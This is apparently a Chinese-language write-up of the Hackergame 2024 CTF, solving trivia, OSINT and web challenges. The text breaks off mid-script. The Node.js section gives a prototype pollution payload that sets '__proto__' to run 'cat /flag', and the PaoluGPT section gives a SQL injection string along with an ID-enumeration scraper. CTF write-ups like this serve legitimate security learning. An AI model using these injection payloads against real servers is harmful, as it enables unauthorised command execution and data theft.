# Hackergame 2024 Writeup (MadCroiX | 狂暴傀影组长 #余胜军说CTF)

> 私のために、うたえ、うたえ、うたえ！

## 签到

```text
Hackergame～🚩🎶哦Hackergame～🚩🎶哦Hackergame🚩🎶  
有了你😙❤️🚩，生活美好😍🙏💐，没烦恼🤷🤤🎼  
第一道签到题🌊🚩🧜‍♂️，奇妙至极✨🧞‍♂️  
按钮点击🤩👾🎮，人人赞叹你👍👍👍  
如果失败😖😭，那可不对🙅⭕️😝  
参数一改🚩😨❓，你就会吼叫😱😱🙉  
```

人话：进网站之后直接点“等不及了马上启动”按钮，然后把网址最后的`?pass=false`改成`?pass=true`。  



得到 flag: `flag{welc0M3-7O-h4ck3R9aM3-aND-ENjoY-HaCKINg-Z0Z4}`

## 喜欢做签到的 CTFer 你们好呀

提取关键字：`中国科学技术大学校内 CTF 战队的招新主页`

首先进Hackergame主页，往下翻，有个 “承办单位”


点进去之后会看到一个仿真终端，输入 `ls -a`，会看到一个 `.flag` 文件，输入 `cat .flag` 即可得到 flag



第一个 flag: `flag{0k_175_a_h1dd3n_s3c3rt_f14g___please_join_us_ustc_nebula_anD_two_maJor_requirements_aRe_shown_somewhere_else}`

至于第二个 flag ，输入 `env` ，会看到一个 `FLAG` 变量，即为第二个 flag



第二个 flag: `flag{actually_theres_another_flag_here_trY_to_f1nD_1t_y0urself___join_us_ustc_nebula}`

彩蛋：输入`sudo`有惊喜

## 猫咪问答（Hackergame 十周年纪念版）

1. **在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？（30 分）**

    先谷歌搜一下 `hackergame 2015 赛前动员会`

    

    点进去发现找不到 这是怎么回事呢？

    点一下这里的`信息安全大赛`

    

    点这里的第二节信息安全大赛存档
    

    

    得到第一题答案：`3A204`

2. **众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？（30 分）**

    答案是`2682`，这里懒得放图了，整理一下近五年的参赛情况吧：

    - Hackergame 2023: 超过 4100 人
    - Hackergame 2022: 超过 4500 人
    - Hackergame 2021: 4023人
    - Hackergame 2020: 3733人
    - Hackergame 2019: 2682人

    基本上一个一个试，看分数就能知道哪个是正确答案。

3. **Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？（20 分）**

   不多说，先看 [Hackergame 2018 的题解 repo](https://github.com/ustclug/hackergame2018-writeups)，点开其他花絮部分。
   

   得到第三题答案：`程序员的自我修养`

4. **在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？**

    提取关键字：`2024 USENIX Security 中国科学技术大学`，Google 一下就能找到信息网络实验室发表的[这篇新闻](https://if.ustc.edu.cn/news/2024_08_20.php)：
    

    有一段是这么写的：
    > 美国东部时间2024年8月14日，黄轩博同学在会场Track: Network Security II: Attack汇报了论文FakeBehalf: Imperceptible Email Spoofing Attacks against the Delegation Mechansim in Email Systems。该论文对当前邮件系统的安全性进行了系统性分析，侧重于邮件的代理机制协议与相关实现，构造了若干新型的、具有高度欺骗性的攻击邮件，且在大量主流邮件服务提供商（16种）与20个不同的邮件客户端进行了测试，验证了攻击的普适性和危害。多位国际同行对该文章兴趣盎然，在会场中、汇报结束后，来自伊利诺伊大学的Nicholas Wang与黄轩博同学热烈讨论了这类攻击的可能防御策略，以及如何做到高安全的同时兼容现有系统。

    总共有 16 种提供商，20 种客户端，所以答案是 `16 * 21 = 336`，为什么是`21`呢？因为还有一个是自己发自己收的。

5. **10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？（5 分）**

   GitHub 找到repo：[torvalds/linux](https://github.com/torvalds/linux)，看下 [commit 记录](https://github.com/torvalds/linux/commits/master/)

   嫌翻页麻烦？改下记录条数，在 Oct 18 附近找找，搜下关键字就能找到相关的 commit id 了。

   

   得到答案：`6e90b6`

6. **大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？（5 分）**

    我写脚本爆破的，我也不会。总之答案是`1833`。(搜索范围，1000-2000，多线程)

最后，得到两个 flag:

- flag: `flag{Λ_gØ0D_C47_!s_thE_c4t_ωhØ_©ΛN_pa5$_thE_qU!2}`
- flag: `flag{T3N_¥3@r$_OF_hAcK3R9@Me_om3d370U_w1TH_ИeK0_quIz}`

## 打不开的盒

下载附件之后直接找个工具打开就行


flag: `flag{Dr4W_Us!nG_fR3E_C4D!!w0W}`

## 每日论文太多了

首先去[论文网站下载pdf](https://dl.acm.org/doi/pdf/10.1145/3650212.3652145)，然后用一些pdf编辑工具打开（本题解使用某`[A-Z]{3}`国产软件打开。  
搜索 flag 之后会在这里提示高亮 `flag here`。


然后把上面的图片删掉，就能看到flag了。



flag: `flag{h4PpY_hAck1ng_3veRyd4y}`  

## 比大小王

写了个js脚本直接自动点击，跑完就有flag了。

```javascript
function makeChoice(choice) {
    if (window.chooseAnswer) {
        window.chooseAnswer(choice);
    }
}

function compareAndClick() {
    const value1 = document.getElementById('value1')?.textContent;
    const value2 = document.getElementById('value2')?.textContent;
    
    if (!value1 || !value2) return;
    
    const leftNumber = parseInt(value1);
    const rightNumber = parseInt(value2);
    
    const dialog = document.getElementById('dialog');
    if (dialog.style.display !== 'none') return;
    
    if (leftNumber > rightNumber) {
        makeChoice('>');
    } else if (rightNumber > leftNumber) {
        makeChoice('<');
    }
}

function autoComplete() {
    const originalSetTimeout = window.setTimeout;
    window.setTimeout = function(fn, delay) {
        if (delay === 200) {
            fn();
            return;
        }
        return originalSetTimeout(fn, delay);
    };
    
    const interval = 80;
    
    setInterval(() => {
        compareAndClick();
    }, interval);
}

function startObserver() {
    const observer = new MutationObserver(() => {
        setTimeout(() => {
            compareAndClick();
        }, 50);
    });

    observer.observe(document.body, {
        childList: true,
        subtree: true,
        characterData: true
    });
}

setTimeout(() => {
    startObserver();
    autoComplete();
}, 5000);
```



得到flag: `flag{i-@m-The-H@cKER-k!N9-OF-cOmPArIng-numbER5-zo24}`

## 旅行照片 4.0

### 问题 1: 照片拍摄的位置距离中科大的哪个校门更近？（格式：X校区Y门，均为一个汉字）


百度地图搜一下，就能得出答案：`东校区西门`(牵强了，我蒙的)


### 问题 2: 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：YYYYMMDD）

Google 一下，你就知道。



答案：`20240519`

做对 1-2 题之后，得到第一个 flag: `flag{5UB5CR1B3_T0_L30_CH4N_0N_B1L1B1L1_PLZ_77c36700b6}`

### 问题 3: 这个公园的名称是什么？（不需要填写公园所在市区等信息）

图片放大之后，垃圾桶上可以看到“`六安园林`”

百度一下，你就知道。


答案：`中央森林公园`

### 问题 4: 这个景观所在的景点的名字是？（三个汉字）

Google 一下，你就知道。



答案：`坛子岭`

做对 3-4 题之后，得到第二个 flag: `flag{D3T41LS_M4TT3R_1F_R3V3RS3_S34RCH_1S_1MP0SS1BL3_6f673a2218}`

### 问题 6: 左下角的动车组型号是

搜关键字：`粉色 动车`


答案：`CRH6F-A`

### 问题 5: 距离拍摄地最近的医院是？（无需包含院区、地名信息，格式：XXX医院）

上一个问题中，我们知道了这个型号的动车只在北京出现，那么我们直接搜这个车在哪些站停靠，然后找到最近的医院就行了。

得到答案：`积水潭医院`

做对 5-6 题之后，得到第三个 flag: `flag{1_C4NT_C0NT1NU3_TH3_5T0RY_4NYM0R3_50M30N3_PLZ_H3LP_ed91e58aa0}`

## Node.js is Web Scale

进入网站，先看源码，发现有个 `cmds` 的变量。

```javascript
cmds = {
  getsource: "cat server.js",
  test: "echo 'hello, world!'",
};
```

再看endpoint，发现`/execute?cmd=getsource`，此时 Node.js 直接执行了`cat server.js`

这里尝试修改cmd的属性，那么怎么改呢？

看一下 `/set` 部分

```javascript
app.post("/set", (req, res) => {
  const { key, value } = req.body;

  const keys = key.split(".");
  let current = store;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  // 设置最后一个键的值
  current[keys[keys.length - 1]] = value;

  res.json({ message: "OK" });
});
```

我们不妨直接走一下`Object`原型污染，将`key`设置为`__proto__.yushengjun`，`value`设置为`cat /flag`，然后访问`/execute?cmd=yushengjun`即可得到flag。

flag: `flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_aca1c334b1}`

## PaoluGPT

不多说，上python脚本。

```python
import requests
from bs4 import BeautifulSoup
import concurrent.futures
from tqdm import tqdm

url = "https://chal01-xxxxxx.hack-challenge.lug.ustc.edu.cn:8443/list"

header = {
    "cookie": "yushengjun"
}

response = requests.get(url, headers=header)

soup = BeautifulSoup(response.text, "html.parser")
conversation_id = []
for a in soup.find_all("a"):
    if a.get("href").startswith("/view?conversation_id="):
        conversation_id.append(a.get("href").split("=")[1])

print(conversation_id)

conversation_url = "https://chal01-xxxxxx.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id="
found_flags = []

def fetch_flag(conversation_id):
    response = requests.get(conversation_url + conversation_id, headers=header)
    if "flag" in response.text:
        found_flags.append(conversation_id)
        return response.text
    return None

with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    futures = {executor.submit(fetch_flag, id): id for id in conversation_id}
    for future in tqdm(concurrent.futures.as_completed(futures), total=len(conversation_id)):
        result = future.result()
        if result:
            print(result)

with open("found_flags.txt", "w") as f:
    for id in found_flags:
        f.write(f"{id}\n")
```

总共999个`conversation_id`，直接多线程找一下，找到flag之后，再手动点一下就行了。

得到第一个flag: `flag{zU1_xiA0_de_11m_Pa0lule!!!_203b3e25b0}`

第二个flag先看题目源码。

```python
# main.py
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

欸🤓👆，字符串拼接，一手SQL注入走起~ 将`conversation_id`设置为`' OR shown = true OR id='`

翻到最底下，得到第二个flag: `flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_b84ba9498e}`

你问我字段哪里来？看看源码就好哩。

## 无法获得的秘密

这里只提供代码与思路，不传图片了，我懒，具体自己跑一下试试就知道了。

1. GitHub 搜一下 `QRCode file transfer`，找到[第一个repo](https://github.com/ganlvtech/qrcode-file-transfer)，下载下来，然后删除以下文件：
    - `js/FileSaver.min.js`
    - `js/decode.js`
    - `js/jsQR.js`
    - `decode.html`
    - `readme.md`
2. 删除文件后，用`bandizip`之类的压缩软件压缩成`tgz`格式的文件。
3. 写一个python代码，利用`pyautogui`将压缩文件的base64自动输入到vnc的终端中，输入过程接近3分钟（如果你网络好的话），代码如下，打开终端直接执行就好

   ```python
   import pyautogui
    import time
    import base64

    def file2b64(filename):
        with open(filename, "rb") as f:
            return base64.b64encode(f.read()).decode()

    text_to_type = file2b64("qrcode-file-transfer-main.tgz")
    print(text_to_type.__len__())

    time.sleep(2)
    pyautogui.typewrite("vim 1.txt")
    pyautogui.press('enter')
    time.sleep(0.1)
    pyautogui.press('i')
    # 每次输入100个字符然后换行是为了方式输入太快导致丢字符
    for i in range(0, text_to_type.__len__(), 100):
        print(text_to_type[i:i+100])
